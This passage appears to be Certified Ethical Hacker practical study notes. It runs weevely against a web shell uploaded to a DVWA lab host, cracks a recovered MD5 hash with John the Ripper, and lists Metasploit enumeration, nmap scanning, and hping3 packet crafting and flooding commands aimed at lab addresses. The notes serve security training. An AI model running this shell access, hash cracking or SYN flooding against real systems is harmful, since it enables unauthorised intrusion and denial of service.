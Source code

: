 Switch back to the Terminal window, type 
➢ weevely http://172.20.0.16:8080/dvwa/hackable/uploads/shell.php toor
➢ session has successfully been established 
➢ type whoami > find Hash.txt > cat Hash.txt > crack md5 hash with john
https://adithyanak.gitbook.io/ceh-practical
**Module 02 : Enumeration**

- ping www.moviescope.com –f –l 1500 -> Frame size
    
- tracert www.moviescope.com -> Determining hop count
    

**Enumeration using Metasploit :**

- msfdb init
    
- service postgresql start
    
- msfconsole
    
- msf > db_status
    
- nmap -Pn -sS -A -oX Test 10.10.10.0/24
    
- db_import Test
    
- hosts -> To show all available hosts in the subnet
    
- db_nmap -sS -A 10.10.10.16 -> To extract services of particular machine
    
- services -> to get all available services in a subnet
    

**SMB Version Enumeration using MSF**

- use scanner/smb/smb_version
    
- set RHOSTS 10.10.10.8-16
    
- set THREADS 100
    
- run
    
- hosts -> now exact os_flavor information has been updated
    

**Module 03 : Scanning Networks**

1. Port Scanning using Hping3: `hping3 --scan 1-3000 -S 10.10.10.10` --scan parameter defines the port range to scan and –S represents SYN flag.
    
2. Pinging the target using HPing3: `hping3 -c 3 10.10.10.10` -c 3 means that we only want to send three packets to the target machine.
    
3. UDP Packet Crafting `hping3 10.10.10.10 --udp --rand-source --data 500`
    
4. TCP SYN request `hping3 -S 10.10.10.10 -p 80 -c 5`
    
    -S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.
    
5. HPing flood `hping3 10.10.10.10 --flood`
    

**Module 04 : Enumeration**
